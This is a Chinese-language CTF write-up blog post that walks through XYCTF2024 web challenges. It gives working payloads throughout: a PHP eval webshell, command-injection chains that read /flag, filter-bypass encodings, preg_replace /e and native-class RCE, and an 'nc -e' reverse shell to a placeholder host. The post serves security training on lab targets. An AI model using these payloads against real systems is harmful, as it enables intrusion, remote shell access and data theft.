---
title: "XYCTF2024复现"
date: 2025-07-16T19:27:19+08:00
summary: "XYCTF2024复现"
url: "/posts/XYCTF2024复现/"
categories:
  - "赛题wp"
tags:
  - "XYCTF2024"
draft: false
---

## ezMake

扫了一下目录发现有flag文件，下载下来就是flag，不过好像这不是预期解



传入一个1之后有回显



分析一下内容

这里PATH变量被设置为空，这段 Makefile 的逻辑检查了 PATH 是否未定义，如果未定义则设为空，如果已定义也重设为空。因为**`make` 命令本身也依赖 PATH 查找**，当PATH被设置为空之后，



但是测试之后发现Bash内置命令是可以执行的

- 内置命令列表

| 命令      | 说明                                                  |
| :-------- | :---------------------------------------------------- |
| :         | 扩展参数列表，执行重定向操作                          |
| .         | 读取并执行指定文件中的命令（在当前 shell 环境中）     |
| alias     | 为指定命令定义一个别名                                |
| bg        | 将作业以后台模式运行                                  |
| bind      | 将键盘序列绑定到一个 readline 函数或宏                |
| break     | 退出 for、while、select 或 until 循环                 |
| builtin   | 执行指定的 shell 内建命令                             |
| caller    | 返回活动子函数调用的上下文                            |
| cd        | 将当前目录切换为指定的目录                            |
| command   | 执行指定的命令，无需进行通常的 shell 查找             |
| compgen   | 为指定单词生成可能的补全匹配                          |
| complete  | 显示指定的单词是如何补全的                            |
| compopt   | 修改指定单词的补全选项                                |
| continue  | 继续执行 for、while、select 或 until 循环的下一次迭代 |
| declare   | 声明一个变量或变量类型。                              |
| dirs      | 显示当前存储目录的列表                                |
| disown    | 从进程作业表中刪除指定的作业                          |
| echo      | 将指定字符串输出到 STDOUT                             |
| enable    | 启用或禁用指定的内建shell命令                         |
| eval      | 将指定的参数拼接成一个命令，然后执行该命令            |
| exec      | 用指定命令替换 shell 进程                             |
| exit      | 强制 shell 以指定的退出状态码退出                     |
| export    | 设置子 shell 进程可用的变量                           |
| fc        | 从历史记录中选择命令列表                              |
| fg        | 将作业以前台模式运行                                  |
| getopts   | 分析指定的位置参数                                    |
| hash      | 查找并记住指定命令的全路径名                          |
| help      | 显示帮助文件                                          |
| history   | 显示命令历史记录                                      |
| jobs      | 列出活动作业                                          |
| kill      | 向指定的进程 ID(PID) 发送一个系统信号                 |
| let       | 计算一个数学表达式中的每个参数                        |
| local     | 在函数中创建一个作用域受限的变量                      |
| logout    | 退出登录 shell                                        |
| mapfile   | 从 STDIN 读取数据行，并将其加入索引数组               |
| popd      | 从目录栈中删除记录                                    |
| printf    | 使用格式化字符串显示文本                              |
| pushd     | 向目录栈添加一个目录                                  |
| pwd       | 显示当前工作目录的路径名                              |
| read      | 从 STDIN 读取一行数据并将其赋给一个变量               |
| readarray | 从 STDIN 读取数据行并将其放入索引数组                 |
| readonly  | 从 STDIN 读取一行数据并将其赋给一个不可修改的变量     |
| return    | 强制函数以某个值退出，这个值可以被调用脚本提取        |
| set       | 设置并显示环境变量的值和 shell 属性                   |
| shift     | 将位置参数依次向下降一个位置                          |
| shopt     | 打开/关闭控制 shell 可选行为的变量值                  |
| source    | 读取并执行指定文件中的命令（在当前 shell 环境中）     |
| suspend   | 暂停 Shell 的执行，直到收到一个 SIGCONT 信号          |
| test      | 基于指定条件返回退出状态码 0 或 1                     |
| times     | 显示累计的用户和系统时间                              |
| trap      | 如果收到了指定的系统信号，执行指定的命令              |
| type      | 显示指定的单词如果作为命令将会如何被解释              |
| typeset   | 声明一个变量或变量类型。                              |
| ulimit    | 为系统用户设置指定的资源的上限                        |
| umask     | 为新建的文件和目录设置默认权限                        |
| unalias   | 刪除指定的别名                                        |
| unset     | 刪除指定的环境变量或 shell 属性                       |
| wait      | 等待指定的进程完成，并返回退出状态码                  |

```
ubuntu@VM-16-12-ubuntu:/$ PATH=
ubuntu@VM-16-12-ubuntu:/$ echo "1"
1
ubuntu@VM-16-12-ubuntu:/$ pwd
/
```

尝试用echo写木马但是遇到waf了

```
echo "<?php eval($_POST['cmd']); ?>" > 1.php
```

用base64和hex绕过也不行

```
echo "PD9waHAgZXZhbCgkX1BPU1RbJ2NtZCddKTsgPz4=" | base64 -d > 1.php
```

试一下用Bash里的.去执行flag文件就行

```
. flag
```



当然还有其他的命令

```
echo $(shell cat flag)
```

解释一下payload

| `$(...)`         | **命令替换**，先执行 `...` 里的命令，返回其输出（STDOUT） |
| ---------------- | --------------------------------------------------------- |
| `shell cat flag` | 尝试执行 `shell` 命令，并传 `cat flag` 作为参数           |
| `echo ...`       | 打印命令替换后的结果                                      |

## ez?Make

一样的页面，但是扫目录里是看不到flag了，有个Makefile路径，把Makefile文件下下来看看

```
SHELL := /bin/bash
.PHONY: FLAG
FLAG: /flag
	1
```

这里指定了在执行shell命令时使用/bin/bash而不是默认的/bin/sh，这里和上面的题目不一样，这里不仅限于bash内置命令

但是这里禁用了很多命令，测试后发现cd是可以用的





因为已知flag在根目录，所以尝试直接读取flag，但是这里很多读取文件的命令都被禁用了，不过more可以用，然后就是绕过flag的关键字过滤了，也过滤了`*`和`?`看看用`[]`去匹配，一开始是用`[a-z]`的，但是发现被过滤了，不过好在用[0-z]能匹配出来

```
cd .. && cd .. && cd ..&&more [0-z][0-z][0-z][0-z]
```



或者也可以cd到bin目录下执行bash命令

```
cd .. && cd .. && cd ..&& cd bin && echo "bHM=" | b[0-z]se64 -d | b[0-z]sh
执行ls命令
```



然后我们cat /flag就可以了

```
cd .. && cd .. && cd ..&& cd bin && echo "Y2F0IC9mbGFn" | b[0-z]se64 -d | b[0-z]sh
```

## ezhttp

### #请求头伪造

一个登录页面，有账号有密码登录框

扫i目录扫出很多东西

```
[19:01:03] Scanning:
[19:01:34] 200 -     0B - /flag.php
[19:01:36] 200 -    1KB - /index.php
[19:01:37] 200 -    1KB - /index.php/login/
[19:01:48] 200 -    35B - /robots.txt
[19:01:49] 403 -   279B - /server-status/
[19:01:49] 403 -   279B - /server-status
```

访问/robots.txt有一个/l0g1n.txt

```
username: XYCTF
password: @JOILha!wuigqi123$
```

拿到账密了，登录有显示

```
登录成功！
不是 yuanshen.com 来的我不要
```

伪造请求头，抓包处理吧，这里直接放修改的地方了

```
Referer: yuanshen.com // 从yuanshen.com来的
User-Agent: XYCTF //用XYCTF浏览器
Client-IP: 127.0.0.1 // 本地用户伪造，不用xff（X-Forward-For）
Via: ymzx.qq.com //从ymzx.qq.com代理
Cookie: XYCTF //想吃点XYCTF的小饼干
```



## ezClass

```php
<?php
highlight_file(__FILE__);
$a=$_GET['a'];
$aa=$_GET['aa'];
$b=$_GET['b'];
$bb=$_GET['bb'];
$c=$_GET['c'];
( (new $a($aa) )->$c() )( (new $b($bb) )->$c() );
```

`((new $a($aa))->$c())((new $b($bb))->$c());`：动态创建两个对象，并调用它们的方法，然后将第二个对象方法的返回值作为参数传递给第一个对象方法。第一个的返回值需要是一个函数，而第二个的返回值是作为参数传递给第一个返回的函数。

这里第一个想到的是利用原生类中的方法去写马

### #Error内置类实现RCE

可以用Error内置类去打，其中Error::getMessage方法可以返回Error类实例化时接受的字符串

```php
<?php
$a = new Error("wanth3f1ag");
echo $a->getMessage();

echo "\n";

$b = ((new Error("123456"))->getMessage());
echo $b;
//wanth3f1ag
//123456
```

所以基本思路就是创建两个error类分别给system和cat /flag两个参数，再用getMessage方法把输进去的参数当作字符串返回



```
GET:?a=Error&aa=system&c=getMessage&b=Error&bb=ls /
等价于
((new Error('system'))->getMessage())((new $Error('ls /'))->getMessage());
等价于
system('ls /')
?a=SplFileObject&aa=data://text/plain,system&c=__toString&b=SplFileObject&bb=data://text/plain,cat%20/flag
```



### #SplFileObject内置类+data伪协议

也用SplFileObject内置类去打，我们先看看SplFileObjectp类中有什么内容

```php
class SplFileObject extends SplFileInfo implements RecursiveIterator, SeekableIterator {
/* 常量 */
public const int DROP_NEW_LINE;
public const int READ_AHEAD;
public const int SKIP_EMPTY;
public const int READ_CSV;
/* 方法 */
public __construct(
    string $filename,
    string $mode = "r",
    bool $useIncludePath = false,
    ?resource $context = null
)
public current(): string|array|false
public eof(): bool
public fflush(): bool
public fgetc(): string|false
public fgetcsv(string $separator = ",", string $enclosure = "\"", string $escape = "\\"): array|false
public fgets(): string
public fgetss(string $allowable_tags = ?): string
public flock(int $operation, int &$wouldBlock = null): bool
public fpassthru(): int
public fputcsv(
    array $fields,
    string $separator = ",",
    string $enclosure = "\"",
    string $escape = "\\",
    string $eol = "\n"
): int|false
public fread(int $length): string|false
public fscanf(string $format, mixed &...$vars): array|int|null
public fseek(int $offset, int $whence = SEEK_SET): int
public fstat(): array
public ftell(): int|false
public ftruncate(int $size): bool
public fwrite(string $data, int $length = 0): int|false
public getChildren(): null
public getCsvControl(): array
public getFlags(): int
public getMaxLineLen(): int
public hasChildren(): false
public key(): int
public next(): void
public rewind(): void
public seek(int $line): void
public setCsvControl(string $separator = ",", string $enclosure = "\"", string $escape = "\\"): void
public setFlags(int $flags): void
public setMaxLineLen(int $maxLength): void
public __toString(): string
public valid(): bool
/* 继承的方法 */
public SplFileInfo::getATime(): int|false
public SplFileInfo::getBasename(string $suffix = ""): string
public SplFileInfo::getCTime(): int|false
public SplFileInfo::getExtension(): string
public SplFileInfo::getFileInfo(?string $class = null): SplFileInfo
public SplFileInfo::getFilename(): string
public SplFileInfo::getGroup(): int|false
public SplFileInfo::getInode(): int|false
public SplFileInfo::getLinkTarget(): string|false
public SplFileInfo::getMTime(): int|false
public SplFileInfo::getOwner(): int|false
public SplFileInfo::getPath(): string
public SplFileInfo::getPathInfo(?string $class = null): ?SplFileInfo
public SplFileInfo::getPathname(): string
public SplFileInfo::getPerms(): int|false
public SplFileInfo::getRealPath(): string|false
public SplFileInfo::getSize(): int|false
public SplFileInfo::getType(): string|false
public SplFileInfo::isDir(): bool
public SplFileInfo::isExecutable(): bool
public SplFileInfo::isFile(): bool
public SplFileInfo::isLink(): bool
public SplFileInfo::isReadable(): bool
public SplFileInfo::isWritable(): bool
public SplFileInfo::openFile(string $mode = "r", bool $useIncludePath = false, ?resource $context = null): SplFileObject
public SplFileInfo::setFileClass(string $class = SplFileObject::class): void
public SplFileInfo::setInfoClass(string $class = SplFileInfo::class): void
public SplFileInfo::__toString(): string
}
```

由于这里$c是调用的方法，在最后一行中两边是一致的，但是跟Error中一样的，这里也有一个`__toString`方法

```
SplFileObject::__toString —以字符串形式返回当前行
```

在本地测试一下

```
root@VM-16-12-ubuntu:/var/www/html# cat test.php 
<?php phpinfo(); ?>
root@VM-16-12-ubuntu:/var/www/html# vim 1.php
root@VM-16-12-ubuntu:/var/www/html# cat 1.php 
<?php 
$a = new SplFileObject("test.php");
echo $a->__toString();
root@VM-16-12-ubuntu:/var/www/html# php 1.php 
<?php phpinfo(); ?>
```

但是这里因为是两个部分的调用返回值进行配合，并且当前目录下的内容是不可知的，所以不能直接读取flag文件，也是需要写命令执行语句

这里需要配合data伪协议去输出,data伪协议可以动态生成文件而无需真实文件。通过data伪协议去包装数据，使得我们可以**输出 `data://` 包装的数据**

```php
<?php
$a = new SplFileObject("data://text/plain,system");
echo $a->__toString();
//system
```

所以我们最终的payload就是

```
?a=SplFileObject&aa=data://text/plain,system&c=__toString&b=SplFileObject&bb=data://text/plain,cat%20/flag
```

## ezRCE

### #无字母RCE

```php
<?php
highlight_file(__FILE__);
function waf($cmd){
    $white_list = ['0','1','2','3','4','5','6','7','8','9','\\','\'','$','<']; 
    $cmd_char = str_split($cmd);
    foreach($cmd_char as $char){
        if (!in_array($char, $white_list)){
            die("really ez?");
        }
    }
    return $cmd;
}
$cmd=waf($_GET["cmd"]);
system($cmd);
really ez?
```

这里需要我们传入的cmd符合白名单中的字符，否则就会执行die语句

无字母RCE

bashfuck的用法，需要配合$0环境变量去使用

- `\$0` 是 **Shell 环境中的一个特殊变量**，代表 **当前 Shell 或脚本的名称**。

```
root@VM-16-12-ubuntu:/var/www/html# echo $0
bash
```

- **`<<<`** → **Here String**（输入字符串作为标准输入）

```
root@VM-16-12-ubuntu:/var/www/html# $0<<<'id'
uid=0(root) gid=0(root) groups=0(root)
```

这里可以看到id命令成功被执行

因为这里有白名单过滤，所以我们需要用数字编码去转换我们的命令

payload

```
?cmd=$0<<<$%27\154\163\040\057%27
等价于
echo 'ls /' | /bin/bash
\154\163\040\057是ls /的八进制
```

推荐文章：https://www.freebuf.com/articles/system/361101.html

## warm up

### #PHP特性

```php
<?php
include 'next.php';
highlight_file(__FILE__);
$XYCTF = "Warm up";
extract($_GET);

if (isset($_GET['val1']) && isset($_GET['val2']) && $_GET['val1'] != $_GET['val2'] && md5($_GET['val1']) == md5($_GET['val2'])) {
    echo "ez" . "<br>";
} else {
    die("什么情况,这么基础的md5做不来");
}

if (isset($md5) && $md5 == md5($md5)) {
    echo "ezez" . "<br>";
} else {
    die("什么情况,这么基础的md5做不来");
}

if ($XY == $XYCTF) {
    if ($XY != "XYCTF_550102591" && md5($XY) == md5("XYCTF_550102591")) {
        echo $level2;
    } else {
        die("什么情况,这么基础的md5做不来");
    }
} else {
    die("学这么久,传参不会传?");
}

什么情况,这么基础的md5做不来
```

用extract($_GET);代码可以实现变量覆盖，直接GET传入变量的值就行

先看第一层，就是简单的md5弱比较，用数组绕过或者强碰撞都行

```
?val1[]=1&val2[]=2
```

再看第二层，需要变量在md5后的值弱等于初始值，也就是需要找个以0e开头的并且该值md5加密后也是0e开头

```
?val1[]=1&val2[]=2&md5=0e215962017
```

然后看第三层，需要$XY和$XYCTF的值符合弱相等，然后就是里面的md5比较，先算一下`XYCTF_550102591`在md5加密后的值

```php
<?php
$a = "XYCTF_550102591";
echo md5($a);
//0e937920457786991080577371025051
```

0e开头的，那还是强碰撞，但是想到这里能进行变量覆盖，那我们可以对$XYCTF的值进行修改，所以随便传入一个强碰撞相等的值就行

```
?val1[]=1&val2[]=2&md5=0e215962017&XY=QLTHNDT&XYCTF=QLTHNDT
```

然后拿到LLeeevvveeelll222.php文件

访问一下

```php
<?php
highlight_file(__FILE__);
if (isset($_POST['a']) && !preg_match('/[0-9]/', $_POST['a']) && intval($_POST['a'])) {
    echo "操作你O.o";
    echo preg_replace($_GET['a'],$_GET['b'],$_GET['c']);  // 我可不会像别人一样设置10来个level
} else {
    die("有点汗流浃背");
}

有点汗流浃背
```

这里先需要满足第一层才能进行操作，既要a为数字也要a不包含数字,preg_match() 只能处理字符串，遇到数组时会返回 false，!false就是true，满足条件

```
a[]=2
```

第二层就是关于preg_replace在/e模式下的rce了，这里三个参数都可控，就简单的多

```
?a=/a/e&c=a&b=system('ls /')
```



## ezmd5

### #md5图片碰撞

需要上传两个图片，根据题目说的md5，估计是需要上传两个不一样的图片但是md5一样的

直接用md5碰撞生成工具(fastcoll)生成就行，也可以直接去网上找现成的图片


这两张图片具有相同的 md5 哈希值：253dd04e87492e4fc3471de5e776bc3d



## 牢牢记住，逝者为大

```php
<?php
highlight_file(__FILE__);
function Kobe($cmd)
{
    if (strlen($cmd) > 13) {
        die("see you again~");
    }
    if (preg_match("/echo|exec|eval|system|fputs|\.|\/|\\|/i", $cmd)) {
        die("肘死你");
    }
    foreach ($_GET as $val_name => $val_val) {
        if (preg_match("/bin|mv|cp|ls|\||f|a|l|\?|\*|\>/i", $val_val)) {
            return "what can i say";
        }
    }
    return $cmd;
}

$cmd = Kobe($_GET['cmd']);
echo "#man," . $cmd  . ",manba out";
echo "<br>";
eval("#man," . $cmd . ",mamba out");

#man,,manba out
```

这里限制了很多

- cmd的字符不能超过13个
- 过滤了很多命令函数和操作符

另外在eval函数中有`#man`注释，我们需要避开这个坑，避免我们传入的代码被注释掉，然后在后面还有多余的数据

首先先试着能让我们的eval能执行

过注释符#

```php
<?php
$a = "\n echo '1';#";
eval("#". $a ."2323");
//1
```

用换行符可以逃逸注释，但是这里过滤了`\`

根据URL编码规则，我们用%0a去代替`\n`，本地测试一下

```php
<?php
highlight_file(__FILE__);
$a = $_GET['a'];
eval("#". $a ."2323");
```

传入a

```
?a=%0a echo '1';%23
```

注意# 是 URL 的锚点标识符，这里需要对#进行编码成%23，否则会被认为是URL本身的分隔符，

根据**`\n` 和 `\r` 在 HTTP 请求中的特殊作用**，如果 `\n` 不经编码直接传入 `?a=\n123`，服务器或浏览器可能会错误地认为 `\n` 是 **HTTP 请求结束符**，导致参数被截断。所以我们的`\n`也是需要编码成URL编码才能起作用的

编码之后PHP后对参数a进行解码

```
?a=\n echo '1';#
```



绕过这两个的问题解决了，接下来就是如何绕过过滤进行rce了

如果上面两个是必须的，那么此时我们已经消耗掉了三个字符（注意，这里不是七个字符，因为后端PHP会进行解码，所以最后是三个字符），那么只能传入最多10个字符

这么多函数禁用了，这时候可以用反引号内联执行，在反引号中可以放入系统命令，可以用带参数输入的方式

```
`$_GET[1]`
```

刚好10个字符，然后可以传入1，但是这里对get的参数都有过滤，还不能换成post，限制的死死的，是要我们去绕过

不能写文件(>被过滤)，不能操作文件（mv，cp被过滤），也不能看目录（ls，被过滤），还无法用通配符去匹配文件（?，*）被过滤

但是这些命令可以用单双引号去绕过，那么方法就很多了（注意这里是无回显的）

### 方法1：cp复制flag

```
?cmd=%0a`$_GET[1]`;%23&1=c''p /[@-z][@-z][@-z]g 1.txt
```

虽然不能用`?`和`*`通配符，但是可以用`[]`去匹配单个字符，这里执行cp命令后访问1.txt就可以拿到flag了

### 方法2：反弹shell

无回显的RCE，直接反弹shell

```
nc [host] [port] -e /bi''n/sh
```



### 方法3：数字编码绕过

```
?cmd=%0a`$_GET[1]`;%23&1=$'\143\160' $'\57\146\154\141\147' 1.txt
//cp /flag的8进制
然后访问1.txt就行
```

根据**Bash 的 `$'...'` ANSI-C Quoting 机制**，`$'...'` 会在 **Shell 解析阶段**（执行命令前）把 `\xxx`（八进制）转换成 **对应的 ASCII 字符**。所有 **`$'\xxx'` 拼接后**，最终会合并为 **可执行的 Shell 命令**

## εZ?¿м@Kε¿?

hint：`Μακεϝ1LE>1s<S0<ϜxxΚ1ηG_ξ2!@<>#>%%#!$*&^(!`

才发现是和前面两个题一样的makefile

```
[18:09:36] Scanning:
[18:10:33] 200 -    38B - /hint.php
[18:10:35] 200 -    2KB - /index.html
```

访问/hint.php

```
